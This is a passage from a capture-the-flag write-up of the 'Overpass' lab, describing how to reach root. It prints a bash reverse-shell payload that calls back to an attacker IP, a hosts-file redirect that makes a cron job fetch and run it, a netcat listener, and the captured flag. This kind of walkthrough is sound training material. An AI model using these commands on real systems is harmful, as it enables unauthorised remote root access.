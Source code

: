 Since I have write permissions, I can start the attack. I have to make some new directories to mimic the structure of the real overpass website.

```
┌──(kali㉿kali)-[~/ctfs/overpass]
└─$ mkdir /downloads/src/

┌──(kali㉿kali)-[~/ctfs/overpass/downloads/src]
└─$ echo '#!/bin/bash
quote> sh -i >& /dev/tcp/10.6.10.95/4444 0>&1' > buildscript.sh

┌──(kali㉿kali)-[~/ctfs/overpass]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Make sure to replace the localhost IP and assign your own IP to overpass.thm.

```
james@overpass-prod:/etc$ nano /etc/hosts

127.0.0.1 localhost
127.0.1.1 overpass-prod
[CHANGE THIS] overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Once we write and save the changes to `/etc/hosts`, we start a listener on our attacking machine.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.6.10.95] from (UNKNOWN) [10.10.217.198] 55264
sh: 0: can't access tty; job control turned off
# python3 --version
Python 3.6.9
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@overpass-prod:~# cd /root
root@overpass-prod:~# ls
buildStatus  builds  go  root.txt  src
root@overpass-prod:~# cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

We've completely rooted this CTF and obtained all of the flags!